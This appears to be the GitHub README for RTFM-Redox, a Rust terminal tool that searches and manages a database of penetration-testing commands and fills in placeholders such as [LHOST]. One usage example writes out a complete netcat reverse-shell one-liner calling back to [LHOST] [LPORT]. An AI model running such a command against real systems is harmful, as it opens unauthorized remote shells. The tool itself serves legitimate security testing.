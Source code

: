 
The goal of this project is to create an easier to use and updated replacement for [RTFM](https://github.com/leostat/rtfm) or something to run in the terminal that works similarly to [Rev Shells](https://revshells.com/) or the [HackTools](https://addons.mozilla.org/en-US/firefox/addon/hacktools/) browser plugin.  I'm still new to Rust so there might be places where I used some poor Rust coding practices, but I will be refactoring the code as I go.  I'm currently using the sqlite database that [RTFM](https://github.com/leostat/rtfm) uses but that needs some updating and new syntax needs to be added since that hasn't been touched in almost 6 years.  

## Working Features
- **note** Sometimes on Kali the backspace/delete key requires Ctrl+Backspace/Delete to delete previous typed characters in terminal.  And in some cases Ctrl+h stops working so I've added a 'hist' command for when that occurs until I figure out some of the intermittent key stroke issues.  
- Ctrl+r to dynamically search the RTFM database for commands as you type and display those in a selectable list.  Works similarly to using Ctrl+r to search through terminal history.
- Ctrl+h to display a history of previously selected commands from the current session in a selectable list. 
- up/down arrow keys to highlight a command from the current search or from the history. Pressing return copies that command to the clipboard.  
- 'info' displays full information on the currently selected command along with any variables that can be set and that are already set.  
- 'add -c [command]' to add a new command to the database.  optional: -d to add a comment/description with the command.
- 'update [column] [content]' to update a database column in the currently selected command.  At the moment the only columns to update are 'command', 'comment' and 'author'. Examples: 'update comment spawn a pty via python3', 'update author greg scharf', 'update command rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [LHOST] [LPORT] >/tmp/f'.  
- 'set' to set variables that will be replaced in commands that have placeholders such as [LHOST], [RHOST], etc. Example: 'set LHOST 10.200.13.3'

## To Add
- [x] Set variables in the CLI to automatically replace placeholders in commands for things like Remote Host, Local Host, Local Port, etc similar to msfconsole.  
- [ ] Add config file to store user set variables and other as yet to be determined configurations.
    - This might be the place for related commands that are often used together. Add ability to save the commands in the current history.  Would need a way to quickly delete a command in the current history e.g. highlight the command and then Ctrl+d to remove it. Also need to be able to completely clear the current history.  User would also need to supply a name for the history before it is saved to the config file.  These would be stored as an array of row IDs from TblCommand. Use the 'config' crate to facilitate this.  
- [x] Add 'env' command to display all user set variables.
- [ ] Switch from termion to crossterm for Windows support.
- [ ] Ctrl+d while in selectable list deletes the item from the database, or if in history mode, deletes the item from the current history.
- [ ] Make use of tags already implemented in the database to display selectable list of grouped items. For example, 'reverse shells linux' to display all commands in the database grouped under that tag.  tags already in the database are probably a little too general to be useful e.g. 'bash', 'windows'.  Also need a function to display all tags in the database as a selectable list.
- [x] Add ability to update the database columns of the currently selected command.
- [x] Display command's comment and any other info after it has been selected.
- [x] Add a history feature, ctrl+h or type 'history' to show a selectable list of previously copied commands.
- [x] Show currently selected command in prompt, type info to show all columns to allow for easier updating of the database within the CLI.
- [ ] Implement [RTFM](https://github.com/leostat/rtfm)'s solution for creating/updating the database
- [ ] Update the database with newer commands for things like Bloodhound,ffuf,feroxbuster,Rubeus,Crackmapexec,Chisel,SSHuttle, etc.
- [ ] Add a better method for generating help content with the prettytable crate.
- [ ] Allow selection mode to wrap up or down
- [ ] Fix errors that occur when attempting to create a statically linked linux release
- [ ] Get Windows version working... Need to use crossterm instead of termion
- [ ] Add search capability for text based/markdown notes.    
    - Root directory for user's notes will be supplied in a CLI variable.
- [ ] Use pre-existing 'refs' table to link to markdown notes and display notes in terminal when selected... there is probably a crate to display markdown.

## To Fix
- [ ] 5-26-23: Clean up code again before it becomes too unruly.
- [ ] Add buffer to scroll through result output that doesn't fit within terminal windows.
- [x] Handle error when output exceeds terminal window so application doesn't crash on Arch.
    - Needs a much better solution
- [ ] Kali backspace/delete key requires Ctrl+Backspace/Delete to delete typed character preceding cursor.    

## Build/Install

### Linux

To build and use until I add release builds... if the linker fails during build see Issues below.
```bash
git clone https://github.com/gregscharf/RTFM-Redox.git
cargo run

# Or if you want to build a release
cargo build -r
mkdir /opt/redox
cp target/release/redox /opt/redox/
cp snibs.db /opt/redox/
cd /opt/redox
./redox
```

**Issues**
When building on Debian distributions: If the linker fails during build, install the following packages.
```bash
sudo apt install libxcb1-dev libxcb-render0-dev libxcb-shape0-dev libxcb-xfixes0-dev
```

### Windows
**Note**: Building on Windows is not working because the termion crate does not support Windows.  Will be switching to crossterm.
